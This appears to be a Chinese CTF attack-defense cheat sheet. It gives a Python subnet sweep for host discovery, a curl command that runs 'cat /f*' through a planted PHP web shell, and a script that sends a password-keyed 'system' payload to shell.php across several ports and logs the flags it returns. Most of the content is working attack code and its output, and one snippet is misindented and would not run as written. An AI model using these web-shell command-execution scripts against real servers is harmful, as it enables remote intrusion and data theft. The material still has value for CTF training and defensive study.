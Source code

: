 ## 主机发现

信息收集

- nmap、Routescan
- Python 脚本

```
import requests
for x in range(2,255): 
    url = "http://192.168.1.{}".format(x) 
    try: 
        r = requests.post(url) 
        print(url) 
        except: 
        pass
```

## 后门利用

curl读flag

```
C:\Users\admin>curl "http://192.168.182.130:8801/include/shell.php" -d "admin_ccmd=system('cat /f*');"
SL{4a0be463dd85555090f2216795677916d2447242}
flag{glzjin_wants_a_girl_friend}
```

脚本

```
端口
#coding=utf-8
import requests
url_head="http://192.168.182.130"   #网段
url=""
shell_addr="/upload/url/shell.php" #木马路径
passwd="pass"                   #木马密码
#port="80"
payload = {passwd: 'System(\'cat /flag\');'}
# find / -name "flag*"

#清空上次记录
flag=open("flag.txt","w")
flag.close()

flag=open("flag.txt","a")


for i in range(8000,8004):
    url=url_head+":"+str(i)+shell_addr
    try:
        res=requests.post(url,payload)#,timeout=1
        if res.status_code == requests.codes.ok:
            result = res.text
            print (result)
            flag.write(result+"\n") 
        else:
            print ("shell 404")
    except:
        print (url+" connect shell fail")

flag.close()
```
